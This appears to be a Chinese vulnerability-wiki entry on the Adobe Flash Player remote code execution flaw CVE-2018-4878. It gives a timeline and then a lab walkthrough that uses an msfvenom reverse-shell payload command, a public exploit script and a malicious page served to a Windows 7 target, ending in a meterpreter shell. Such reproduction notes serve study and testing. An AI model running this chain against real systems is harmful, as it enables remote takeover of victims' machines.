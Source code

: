 （CVE-2018-4878）Adobe Flash Player 远程代码执行漏洞
====================================================

一、漏洞简介
------------

2018年1月31日，韩国CERT发布公告称发现Flash
0day漏洞的野外利用，攻击者执行针对性的攻击；2月1日Adobe发布安全公告，确认Adobe
Flash Player 28.0.0.137
及早期版本存在远程代码执行漏洞（CVE-2018-4878）；2月2日，Cisco
Talos团队发布了事件涉及攻击样本的简要分析；2月7日，Adobe发布了CVE-2018-4878漏洞的安全补丁。

二、漏洞影响
------------

Adobe Flash Player \<= 28.0.0.137

三、复现过程
------------

-   1.环境    kail: `192.168.184.128`    win7sp1: `192.168.184.131`    exp: `CVE-2018-4878-master.zip `    flash: `AdobeFlashPlayer28.0.0.161正式版.zip`
-   2.利用msfvenom生成对应的shellcode代码

```{=html}
<!-- -->
```
    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.184.128 lport=4444 -f python>shellcode.txt

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId24.png)

-   3.进入 CVE-2018-4878-master
    目录，编辑`CVE-2018-4878.py`文件，将msfvenom生成的代码覆盖掉原来的代码

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId25.png)

-   4.修改 swf 文件及 html 文件位置

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId26.png)

-   5.Python 执行 CVE-2018-4878-master.py 代码，会生成两个文件，一个 swf
    文件，一个 html 文件

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId27.png)

-   6.把生成的两个文件放到apache web目录下

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId28.png)

-   7.通过msf开启反弹sehll监听

![6.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId29.png)

-   8.靶机上win7安装存在漏洞的adobe flash player 28.0.0.126

![7.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId30.png)

-   9.通过win7自带的ie浏览器进行访问`192.168.184.128/index2.html`

![8.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId31.png)

-   10.Kail上成功获取到meterpreter shell

![9.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId32.png)

![10.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId33.png)

